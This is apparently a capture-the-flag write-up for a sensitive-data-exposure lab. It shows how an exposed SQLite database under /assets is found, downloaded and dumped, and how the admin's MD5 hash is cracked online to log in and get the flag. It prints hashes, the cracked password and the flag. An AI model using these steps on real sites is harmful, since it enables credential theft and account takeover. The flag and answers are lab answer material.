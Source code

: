 # 03. Sensitive data exposure practical

[Part 1. Before we start]

- The most common way to store a large amount of data in a format that is easily accessible from many locations at once is in a database like sql or nosql.
- However, instead of setting up on servers for database such as mysql or mariadb, mongodb, the dev store db as files. These databases are referred to as "flat-file" databases, as they are stored as a single file on the computer. ⇒ easier than setting up a full database server

[?] What happens if the database is stored underneath the root directory of the website (i.e. one of the files that a user connecting to the website is able to access)?

- The user can download file.db and check the data in it ⇒ quite dangerous right !
- The most common (and simplest) format of flat-file database is an sqlite database.

[Part 2. Exploit]

Target: http://10.10.112.12/

1) What is the name of the mentioned directory? 

- Ctrl + u to open the source code of /login:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.112.12/login/            

<!DOCTYPE html>
<html>
        <head>
              ....
                <script src="../assets/js/loginScript.js"></script>
        </head>
        <body>
                <header>
                        <a id="home" href="/">Sense and Sensitivity</a>
                        <a id="login" href="/login">Login</a>
                </header>
                <div class=background></div>
//[*] /asset is mentioned dir right 
                <!-- Must remember to do something better with the database than store it in /assets... -->
                .....
</html>

```

**Result:** /asset

2) Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?

![Screenshot 2024-02-25 165511](https://github.com/vdh1612/CTF_write_up/assets/125654739/deac636d-6347-4e55-96a1-e438dc503240)


**Result:** webapp.db is the file contains sensitive data

3) Use the supporting material to access the sensitive data. What is the password hash of the admin user?

- If i open the file and cat the file, it just shows some data that i don’t really understand right now
- Now we will check database version of the file webapp.db

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls -l webapp.db 
-rw-r--r-- 1 kali kali 28672 Feb 25 04:56 webapp.db
                                                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ file webapp.db  
webapp.db: SQLite 3.x database, last written using SQLite version 3022000, file counter 255, database pages 7, 1st free page 5, free pages 1, cookie 0x6, schema 4, UTF-8, version-valid-for 255
//[*] sqlite database right
```

- Access the file

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlite3 webapp.db           
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> 
```

- Show all tables and dump information from table

```
sqlite> .tables
sessions  users   
sqlite> select * from users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
```

- The syntax is a little different from mysql so i don’t know which column is this data represented for. So  in cheatsheet, we can use PRAGMA table_info(name_table); to show name of columns

```
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
```

- **Column Order:**
    - userID, username, password, admin
- **Data:**
    1. **`userID`**:
        - 4413096d9c933359b898b6202288a650
        - 23023b67a32488588db1e28579ced7ec
        - 4e8423b514eef575394ff78caed3254d
    2. **`username`**:
        - admin
        - Bob
        - Alice
    3. **`password`**:
        - 6eea9b7ef19179a06954edd0f6c05ceb
        - ad0234829205b9033196ba818f7a872b
        - 268b38ca7b84f44fa0a6cdc86e6301e0
    4. **`admin`**:
        - 1
        - 1
        - 0

**Result:** password hash of the admin user <=> ****6eea9b7ef19179a06954edd0f6c05ceb

4) Crack the hash

- Using https://crackstation.net/ to crack hash code

```

Hash	                            Type	Result
6eea9b7ef19179a06954edd0f6c05ceb    md5	      qwertyuiop
```

- Login as admin:

+) Username: admin

+) Password: qwertyuiop

**Final result:** Login as admin ⇒ THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
